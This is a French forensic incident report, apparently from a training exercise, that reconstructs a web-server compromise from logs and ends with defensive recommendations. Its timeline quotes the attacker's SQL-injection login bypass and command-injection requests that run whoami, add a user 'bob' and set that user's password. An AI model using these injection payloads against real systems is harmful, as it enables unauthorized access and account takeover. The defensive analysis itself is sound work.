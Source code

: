 # Rapport d'Investigation

**Auteur :** Cyril D.  
**Date :** 19/03/2024  

## Table des Matières
1. [Objectifs](#objectifs)
2. [Analyse des Preuves](#analyse-des-preuves)
    - [Hashs des Éléments Transmis](#hashs-des-éléments-transmis)
    - [Chronologie des Événements](#chronologie-des-événements)
3. [Conclusion](#conclusion)
4. [Recommandations](#recommandations)
5. [Fichiers logs](#fichiers-logs)

## Objectifs
- Retracer la timeline des événements.
- Déterminer si le serveur a été compromis.
- Fournir des recommandations.

## Analyse des Preuves

### Hash SHA256 des éléments transmis
- infected.zip : 3D24ABC43FD9C1F7A35F1FA92C18E0E756887FCDD1B5F4BDD63309D6035D7333

### Chronologie des Événements
| Date & Heure         | Source (Log) | Événement                               | Détails complémentaires                  |
|----------------------|--------------|-----------------------------------------|------------------------------------------|
| N/A  | Server.log     | Vol de token      | via la request POST {"user":"'or '1'='1", "passwd":"'or '1'='1" dans https://192.168.42.129:3000/Login|
| N/A  | Server.log       | Lance une commande whoami      | via GET https://192.168.42.129:3000/LocalDNSResolver?i=google.com;whoami|
| 02/10/2024 13:17:49  | Server.log     | création d’un nouvel utilisateur "bob"      |  via https://192.168.1.200:3000/LocalDNSResolver?i=google.com;useradd+bob               |
| 02/10/2024 13:35:55  | Server.log    | Modification du mdp de bob      | GET https://192.168.1.200:3000/LocalDNSResolver?i=google.com;echo+"azerty123456"+|+sudo+passwd+--stdin+bob   |
| 02/10/2024 13:36:07  | auth.log   | Connexion SSH réussie juste après le changement de mot de passe de 192.168.1.176      | Oct  2 13:36:07 michael-u2204 sshd[5650]: Accepted password for bob from 192.168.1.176 port 58814 ssh2   |


---

## Conclusion
Plusieurs attaques via des requetes web on été effectué, certaine ont réussi en creer un utilisateur qui a pu avoir accés au serveur.

---

## Recommandations
- Limiter l'exposition des services : Fermer tous les ports non nécessaires
- Installer et configurer fail2ban pour bloquer les IP effectuant des scans répétitifs
- Corriger les vulnerabilité de l’application web
- Changer les tokens compromis, et stocker les nouveaux de manière sécurisé
- Utiliser des mot de passe fort, voir la double authentification



## Fichiers logs
- [log.zip](log.zip)
